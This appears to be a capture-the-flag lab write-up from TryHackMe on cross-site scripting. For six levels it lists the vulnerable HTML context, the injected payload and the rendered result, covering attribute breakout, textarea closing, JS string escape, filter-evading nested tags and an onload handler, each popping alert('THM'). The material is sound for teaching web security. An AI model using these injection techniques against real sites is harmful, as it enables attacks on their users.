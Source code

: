 
**Payloads**

```
# Level 1: adding alert

<h2>Hello, test</h2>
>>> <script>alert('THM');</script>
<h2>Hello, <script>alert('THM');</script>

# Level 2: making input value empty

<h2>Hello, <input value="test"></h2>
>>> "><script>alert('THM');</script>
<h2>Hello, <input value=""><script>alert('THM');</script></h2>

# Level 3: Closing text area before calling payload

<h2>Hello, <textarea>test</textarea></h2>
>>> </textarea><script>alert('THM');</script><textarea>
<h2>Hello, <textarea></textarea><script>alert('THM');</script><textarea></textarea></h2>

# Level 4: closing '' and executing payload

<h2>Hello, <span class="name"></span></h2>
    <script>
        document.getElementsByClassName('name')[0].innerHTML='test';
    </script>
>>> ';alert('THM');//
document.getElementsByClassName('name')[0].innerHTML='';alert('THM');//';

# Level 5: script is getting remove from payload

<h2>Hello, test</h2>
 <h2>Hello, <>alert('THM');</></h2>
>>> <sscriptcript>alert('THM');</sscriptcript>

# Level 6: taking advantage of 'onload' attribute for src

<div class="text-center">
    <h2>Your Picture</h2>
    <img src="/images/cat.jpg">
</div>

>>> <script>alert('THM');</script>
<img src="scriptalert('THM');/script">

>>> /images/cat.jpg" onload="alert('THM');


```

**Payload in Action**

